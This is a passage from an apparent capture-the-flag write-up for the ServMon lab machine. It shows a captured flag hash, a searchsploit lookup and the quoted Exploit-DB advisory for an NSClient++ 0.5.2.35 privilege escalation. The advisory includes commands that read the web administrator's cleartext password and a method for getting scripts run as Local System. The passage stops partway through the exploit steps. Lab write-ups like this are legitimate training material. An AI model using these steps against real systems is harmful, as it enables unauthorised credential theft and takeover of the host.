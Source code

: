     nadine@SERVMON C:\Users\Nadine>type Desktop\user.txt
    e9aa044247ca285bb777782d7b0cfdfd


# Root

For the root part we need to exploit the NSClient on port 8443 as there is a
privilege escalation vulnerability.

    :::text
    kali@kali:~$ searchsploit NSclient
    ---------------------------------------------------- ----------------------------------------
    Exploit Title                                      |  Path
                                                        | (/usr/share/exploitdb/)
    ---------------------------------------------------- ----------------------------------------
    NSClient++ 0.5.2.35 - Privilege Escalation          | exploits/windows/local/46802.txt
    ---------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    kali@kali:~$ cat /usr/share/exploitdb/exploits/windows/local/46802.txt
    Exploit Author: bzyo
    Twitter: @bzyo_
    Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
    Date: 05-05-19
    Vulnerable Software: NSClient++ 0.5.2.35
    Vendor Homepage: http://nsclient.org/
    Version: 0.5.2.35
    Software Link: http://nsclient.org/download/
    Tested on: Windows 10 x64

    Details:
    When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.

    The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.

    Prerequisites:
    To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

    Exploit:
    1. Grab web administrator password
    - open c:\program files\nsclient++\nsclient.ini
    or
    - run the following that is instructed when you select forget password
            C:\Program Files\NSClient++>nscp web -- password --display
            Current password: SoSecret

